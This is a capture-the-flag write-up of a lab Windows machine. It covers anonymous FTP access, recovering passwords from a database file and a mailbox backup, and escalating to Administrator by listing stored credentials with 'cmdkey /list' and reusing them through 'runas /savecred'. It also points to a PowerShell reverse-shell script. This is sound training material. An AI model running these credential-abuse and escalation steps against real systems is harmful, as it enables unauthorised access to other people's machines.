

<p align="center">
  
</p>

***


# External Recon

We kick off a basic "nmap" scan:

```
nmap -sC -sV 10.10.10.98

PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
23/tcp open  telnet?
80/tcp open  http    Microsoft IIS httpd 7.5
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

As you can see, we find some very common ports.
When we visit the website listening on "port 80" we just find a picture
of a server-room.


Let's check "ftp" and "telnet" by running another "nmap" scan.

```
nmap -A 10.10.10.98

PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 425 Cannot open data connection.
| ftp-syst:
|_  SYST: Windows_NT
23/tcp open  telnet?
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
```

First thing to note is that we have anonymous access to the "ftp" server.
Let's login an see what we find.

[[Top]](#top)

# Explore

```
ftp 10.10.10.98                                                                                                                            

Name (10.10.10.98:root): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.

ftp> dir
08-23-18  08:16PM       <DIR>          Backups
08-24-18  09:00PM       <DIR>          Engineer
```

In both directories are files. I downloaded them with `get <filename>`.


The zip file was password protected. So, I moved over to the database file.
I ran the tool "strings" and "grep" on it and hoped for a quick win. Perhaps we find a password.

And indeed I found a password to the zip:

```
strings backup.mdb | grep access
access4u@security
```

Of cause I tried different versions of this. `grep passw` and others.
To be honest. I don't know what else I tried. Perhaps I just piped "strings" into "more"
and searched manually. ;)

However in the zip file, I found a ".pst" file. If you don't know what this is, you
can run `file` against it and find out it's a "Microsoft Exchange" format for Mailboxes.

We can't read it how it is right now. So I searched for a converter. Very quickly
I came across "pst-tools". You can get them via "apt" in "kali".

After installing it, I ran `readpst`. It converted the file to a ".mbox" file.
You can get the file <a href="https://www.tagnull.de/post/access/access_controll.mbox">here</a>.

In it you find an email from John.

> Hi there,
> 
> The password for the “security” account has been changed to 4Cc3ssC0ntr0ller.  Please ensure this is passed on to your engineers.
> 
> Regards,
> John

How kind! Thanks John! :)

[[Top]](#top)


# Exploit

Let's login with our new credentials:


And we've got a shell. Including `user.txt`

```
C:\Users\security\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is 9C45-DBF0

 Directory of C:\Users\security\Desktop

08/28/2018  06:51 AM    <DIR>          .
08/28/2018  06:51 AM    <DIR>          ..
08/21/2018  10:37 PM                32 user.txt
               1 File(s)             32 bytes
               2 Dir(s)  16,767,012,864 bytes free

```

[[Top]](#top)

# Internal Recon

I searched around in the box for clues how to proceed. Eventually I checked for stored
credentials:

```
cmdkey /list

Currently stored credentials:
Target: Domain:interactive=ACCESS\Administrator
Type: Domain Password
User: ACCESS\Administrator
```

If you want to learn more about "Windows Enumeration" check this <a href="https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide" target="_blank">blog</a>.
He has some `HackTheBox` WriteUps too.

[[Top]](#top)


# Privilege Escalation
In order to use those stored credentials, I used "runas" with the "/savecreds" option.

`runas /user:ACCESS\Administrator /savecred "cmd.exe /c type c:\users\administrator\desktop\root.txt C:\Users\security\AppData\Local\Temp\root.txt"`

[[Top]](#top)

# Root Flag

So we've got our root.txt:


But getting a shell is fun. At least when you don't do a writeup. For some reason my payloads wouldn't work anymore.
So I had to figure out another way to get a shell.

I won't give you the complete rundown today. I probably will do a seperate blog for different shells in the near future.
Just get yourself this repo: <a href="https://github.com/samratashok/nishang" target="_blank">Github: nishang</a> and play with
"Invoke-PowershellTCP". It's cool! :)



[[Top]](#top)

# Lessons Learned
I should learn to take propper notes on my machines. I had to do the machine a second time basicly. *sigh*

That's it for today. Have a nice one!

x41

[[Top]](#top)
